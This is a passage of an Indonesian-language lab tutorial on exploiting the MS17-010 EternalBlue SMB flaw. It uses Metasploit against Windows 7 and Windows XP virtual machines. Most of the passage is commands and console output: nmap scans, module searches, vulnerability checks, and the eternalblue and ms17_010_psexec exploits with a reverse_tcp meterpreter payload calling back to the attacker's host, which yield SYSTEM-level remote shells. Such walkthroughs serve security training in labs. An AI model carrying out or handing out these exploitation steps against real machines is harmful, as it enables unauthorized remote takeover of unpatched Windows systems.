msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.1.21:4444 
[*] 192.168.1.5:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.5:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.1.5:445       - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.5:445 - The target is vulnerable.
[*] 192.168.1.5:445 - Connecting to target for exploitation.
[+] 192.168.1.5:445 - Connection established for exploitation.
[+] 192.168.1.5:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.5:445 - CORE raw buffer dump (40 bytes)
[*] 192.168.1.5:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 42  Windows 7 Home B
[*] 192.168.1.5:445 - 0x00000010  61 73 69 63 20 37 36 30 31 20 53 65 72 76 69 63  asic 7601 Servic
[*] 192.168.1.5:445 - 0x00000020  65 20 50 61 63 6b 20 31                          e Pack 1        
[+] 192.168.1.5:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.5:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.5:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.5:445 - Starting non-paged pool grooming
[+] 192.168.1.5:445 - Sending SMBv2 buffers
[+] 192.168.1.5:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.5:445 - Sending final SMBv2 buffers.
[*] 192.168.1.5:445 - Sending last fragment of exploit packet!
[*] 192.168.1.5:445 - Receiving response from exploit packet
[+] 192.168.1.5:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.5:445 - Sending egg to corrupted connection.
[*] 192.168.1.5:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.1.5
[*] Meterpreter session 2 opened (192.168.1.21:4444 -> 192.168.1.5:49161) at 2024-12-18 22:00:06 +0800
[+] 192.168.1.5:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.5:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.5:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
meterpreter > sysinfo
Computer        : WINDOWS7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

Bangg!!! kita berhasil mengesploit Windows 7, untuk perintah di dalam `meterpreter` bisa menggunakan `help` atau kunjungi [Meterpreter Basics Command](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/).

>__Baca Juga__
>* [https://en.wikipedia.org/wiki/EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
>* [Meterpreter Basics Command](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

#### Exploit Windows XP dengan Eternalblue

Proses exploit Windows XP hampir sama dengan Windows 7 sebelumnya (pastikan sudah mencoba exploit Windows 7 dengan Eternalblue sebelumnya). Perbedaannya pada eternalblue di Windows XP kita harus menggunakan payload dan pastikan LHOST payload adalah IP Address Kali Linux kita.

Scan:

```bash
$ nmap -p- -A -T4 192.168.1.6

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 21:43 +08
Nmap scan report for 192.168.1.6 (192.168.1.6)
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
MAC Address: 08:00:27:67:DA:AE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows XP
OS CPE: cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: windowsxp
|   NetBIOS computer name: WINDOWSXP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-18T21:44:11+08:00
|_clock-skew: mean: -4h00m00s, deviation: 5h39m24s, median: -8h00m00s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: WINDOWSXP, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:67:da:ae (Oracle VirtualBox virtual NIC)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   1.24 ms 192.168.1.6 (192.168.1.6)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.82 seconds
```

Exploit dengan metasploit framework

```bash
$ msfconsole

Metasploit tip: Use the resource command to run commands from a file
                                                  
                          ########                  #
                      #################            #
                   ######################         #
                  #########################      #
                ############################
               ##############################
               ###############################
              ###############################
              ##############################
                              #    ########   #
                 ##        ###        ####   ##
                                      ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search eternalblue

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'

msf6 > use 24
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   CHECK_ARCH   true                                                            no        Check for architecture on vulnerable hosts
   CHECK_DOPU   true                                                            no        Check for DOUBLEPULSAR on vulnerable hosts
   CHECK_PIPE   false                                                           no        Check for named pipe on vulnerable hosts
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        445                                                             yes       The SMB service port (TCP)
   SMBDomain    .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                      no        The password for the specified username
   SMBUser                                                                      no        The username to authenticate as
   THREADS      1                                                               yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.6
RHOSTS => 192.168.1.6
msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit

[+] 192.168.1.6:445       - Host is likely VULNERABLE to MS17-010! - Windows 5.1 x86 (32-bit)
[*] 192.168.1.6:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 10
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 192.168.1.6
RHOSTS => 192.168.1.6
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.21:4444 
[*] 192.168.1.6:445 - Target OS: Windows 5.1
[*] 192.168.1.6:445 - Filling barrel with fish... done
[*] 192.168.1.6:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.1.6:445 -   [*] Preparing dynamite...
[*] 192.168.1.6:445 -           [*] Trying stick 1 (x86)...Boom!
[*] 192.168.1.6:445 -   [+] Successfully Leaked Transaction!
[*] 192.168.1.6:445 -   [+] Successfully caught Fish-in-a-barrel
[*] 192.168.1.6:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.1.6:445 - Reading from CONNECTION struct at: 0x816fd8b8
[*] 192.168.1.6:445 - Built a write-what-where primitive...
[+] 192.168.1.6:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.1.6:445 - Selecting native target
[*] 192.168.1.6:445 - Uploading payload... XthJDniT.exe
[*] 192.168.1.6:445 - Created \XthJDniT.exe...
[+] 192.168.1.6:445 - Service started successfully...
[*] 192.168.1.6:445 - Deleting \XthJDniT.exe...
[*] Sending stage (177734 bytes) to 192.168.1.6
[*] Meterpreter session 1 opened (192.168.1.21:4444 -> 192.168.1.6:1037) at 2024-12-18 22:08:23 +0800

meterpreter > 
meterpreter > sysinfo 
Computer        : WINDOWSXP
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Bangg!!! berhasil.